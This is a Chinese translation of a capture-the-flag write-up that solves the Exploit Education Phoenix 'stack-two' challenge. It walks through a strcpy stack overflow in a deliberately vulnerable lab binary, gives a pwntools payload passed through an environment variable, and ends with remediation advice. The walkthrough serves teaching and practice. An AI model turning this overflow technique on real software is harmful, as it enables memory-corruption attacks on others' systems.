 # 凤凰城挑战赛—堆栈二

> 原文：<https://infosecwriteups.com/phoenix-challenges-stack-two-da59b290dfa?source=collection_archive---------2----------------------->

![](img/25c0eab8264250ef2ce6294c9cf0a2ee.png)

# 挑战

挑战的描述和源代码位于[这里](http://exploit.education/phoenix/stack-two/)。它和所有其他 Phoenix 二进制文件都位于 **/opt/phoenix/amd64** 目录中。一篇[的前一篇文章](https://medium.com/@secnate/phoenix-challenges-getting-set-up-a2783e0616c6)描述了如何为这些挑战设置虚拟机，如果还没有这样做的话。

# 文件

我们使用下面的方法来检查*栈两个*文件的属性。

```
nathan@nathan-VirtualBox:/opt/phoenix/amd64$ file stack-twostack-two: setuid, setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

我们知道，像*栈一*挑战一样，*栈二*文件也有

1.  setuid 属性。它表示该程序是以所有者的权限运行的。如果文件的所有者是 root 用户(在本例中不是)，则可以使用它来提升权限
2.  符号，由**未剥离**属性指示。这意味着调试和分析二进制文件的人可以看到原始的变量和函数名
3.  在执行过程中动态链接的共享库。这有助于识别所使用的标准函数
4.  一个 **ELF 64 位 LSB 可执行文件，x86–64**。ELF 是文件格式，64 位是字长，LSB 表示它是 little-endian(首先使用最低有效字节)，并且使用 x86–64 指令集。

***剧透预警*:** 这不是巧合。*栈二*与*栈一*挑战非常相似，无论是从问题还是解决方案来看。

# 目标

查看*堆栈二的* C 代码，我们看到存储在**局部变量**结构中的 **changeme** 变量被初始化为 0。目标是篡改其值，使其等于 **0x0d0a090a** ，以便打印所需的语句。

# 相关概念

有必要了解堆栈内存是如何工作的。我在凤凰栈零挑战的[文章里写了一篇很长的解释，有兴趣的可以看看。](/phoenix-challenges-stack-zero-f8743cc871ed)

还需要了解什么是*环境变量*。它们是计算机系统的执行环境中的变量，可以配置/影响当前正在进行或将要执行的进程或程序。

虽然大多数人在使用 Linux 机器时对它们很熟悉，但它们也存在于 Windows 中。以下是 Windows 10 的一些例子:

![](img/df51de33a78dc0586c442a8c6aed265e.png)

让我们转向 Linux，因为这个挑战是在它上面运行的。Linux 环境变量或者具有**全局**或者**局部**范围:

*   **全局环境变量:**它们可以被当前的 Linux 终端以及在其中运行的任何进程、shell 脚本或程序使用。它们要么在 Linux 配置文件中定义，要么用**export<varname>=<value>**终端命令定义。
*   **本地环境变量:**它们只能被定义它们的 Linux 终端使用。即使进程或程序是在终端(定义它们的终端)中启动的，他们也不能访问它。它们是用**<varname>=<value>**终端命令定义的

# 虫子

所有*堆栈二的*数据都存储在堆栈上，其中*局部变量*结构的*缓冲区*和 *changeme* 变量是相邻的邻居。存入缓冲区的多余数据将溢出到 *changeme* 变量并影响其值。这种溢出是由 **strcpy()** 函数引起的，该函数将存储在 *ExploitEducation* 环境变量中的文本写入 *locals.buffer* 中，而不进行任何边界检查。

# 利用

输入写入的 *locals.buffer* 有 64 个字符的空间。由于 *locals.changeme* 变量最初为 0，漏洞需要篡改其内存位置，以使其具有所需的 **0x0d0a090a** 值。这是通过输入一个 64 个字符的输入字符串来完全占据缓冲区的内存，并附加额外的数据来确保 *changeme* 变量被 **0x0d0a090a** 值完全覆盖。

这个漏洞利用的过程将会很快； *Stack Two* 在各方面都与 *Stack One* challenge 相同，除了精心制作的有效载荷通过 *ExploitEducation* 环境变量而不是程序参数传递到程序中。[那些不熟悉[我对 Stack One 挑战的解决方案](https://medium.com/bugbountywriteup/phoenix-challenges-stack-one-4a9d2100274f)的人可能想回顾一下它的历史背景]

是时候利用这个漏洞了。 **exploit.py** 文件第 14 行的有效负载是

```
payload = cyclic(64) + p32(0xdeadbeef)
```

它在 **exploit.py** 文件的第 20 行被传递到 stack-two 程序的执行中

```
p = process(["stack-two"], env={ "ExploitEducation" : payload }, cwd="/opt/phoenix/amd64")
```

注意`env={"ExploitEducation":payload}`。当 Pwntools 为启动 stack-two 二进制文件创建一个新的终端进程时， **env** 字典指定 *ExploitEducation* 环境变量的值在启动时初始化。因为 **env** 字典没有其他条目，所以没有其他环境变量被初始化。 *ExploitEducation* 是一个全局环境变量，因为 *stack-two* 程序在执行时使用它。

使用 **env={ < data > }** 字典控制环境变量的值在漏洞开发和稳定过程中非常重要。这是因为环境变量位于堆栈底部，它们的长度会影响特定函数堆栈数据在可用内存区域中的位置。

![](img/95e1ca7930ada15754fb22ab38ab6e19.png)

如果 Pwntools 的进程启动命令中没有这样的 **env** 字典，初始化的终端进程将继承原来执行环境的环境变量。⁴许多 CTF 开发者利用这个事实来摆脱那些忘记手动控制漏洞执行环境中的环境变量的玩家。挑战主机被配置为初始化不同的环境变量。有些甚至在每次运行新程序时都初始化不同的环境变量。制造攻击移动存储位置的漏洞非常困难，如果几乎不可能的话。

> 专业提示:总是用 **env** 字典来控制已启动进程的环境变量的值！如果不需要，用 **env={}** 初始化 Pwntools 脚本中启动的进程

好的，我创建了基本的漏洞，并通过 *ExploitEducation* 环境变量将它传入。由于我控制了流程环境变量的长度和值，所以 *stack-two* 执行环境有一个稳定的堆栈。下一步是测试 **0xdeadbeef** 是否用方便包含的打印输出完全覆盖了 **changeme** 变量:

```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-two$ ./exploit.py
Launching The Stack Two Exploit!
[!] Could not find executable 'stack-two' in $PATH, using '/opt/phoenix/amd64/stack-two' instead
[+] Starting local process '/opt/phoenix/amd64/stack-two': pid 5478
[*] Switching to interactive mode
[*] Process '/opt/phoenix/amd64/stack-two' stopped with exit code 0 (pid 5478)
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0xdeadbeef, we want 0x0d0a090a
[*] Got EOF while reading in interactive
```

确实如此。最后一步是用 **0x0d0a090a** 替换有效载荷的 **0xdeadbeef** 值，看:

```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-two$ ./exploit.py
Launching The Stack Two Exploit!
[!] Could not find executable 'stack-two' in $PATH, using '/opt/phoenix/amd64/stack-two' instead
[+] Starting local process '/opt/phoenix/amd64/stack-two': pid 5485
[*] Switching to interactive mode
[*] Process '/opt/phoenix/amd64/stack-two' stopped with exit code 0 (pid 5485)
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
[*] Got EOF while reading in interactive
```

漏洞代码可以在我的 [Github 知识库](https://github.com/secnate/Exploit-Education-CTFs)中找到。

# 补救

为了防止这样的内存损坏错误，我会敦促开发人员不要用 C 编写，而要过渡到内存安全的语言，如 Python 或 Rust。

如果除了使用 C 别无选择，我会警告不要使用 [**strcpy**](https://www.geeksforgeeks.org/why-strcpy-and-strncpy-are-not-safe-to-use/) 函数从任何地方提取输入。正如刚才看到的，它继续读取输入，直到看到终止空值(' \0 ')，而不管目的缓冲区的大小。

应改为使用 [**strlcpy**](https://man.openbsd.org/strlcpy.3) 函数。它将输入写入目标缓冲区，直到达到指定的大小，并以空字符(' \0 ')终止缓冲区。

源代码的`strcpy(locals.buffer, ptr);`行将是

```
strlcpy(locals.buffer, ptr, 64);
```

目前就这些。敬请期待下一次挑战！

这篇 CTF 挑战赛的文章最初发表在内森·帕夫洛夫斯基的个人博客上: [secnate.github.io](http://secnate.github.io/)

**引文:**

[https://learn . Microsoft . com/en-us/windows/deployment/usmt/usmt-recognized-environment-variables](https://learn.microsoft.com/en-us/windows/deployment/usmt/usmt-recognized-environment-variables)

[https://www . geeks forgeeks . org/environment-variables-in-Linux-UNIX/](https://www.geeksforgeeks.org/environment-variables-in-linux-unix/)

[https://code burst . io/Linux-环境-变量-53cea0245dc9？gi=bc53be032c14](https://codeburst.io/linux-environment-variables-53cea0245dc9?gi=bc53be032c14)

https://docs.pwntools.com/en/stable/tubes/processes.html[⁴](https://docs.pwntools.com/en/stable/tubes/processes.html)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！
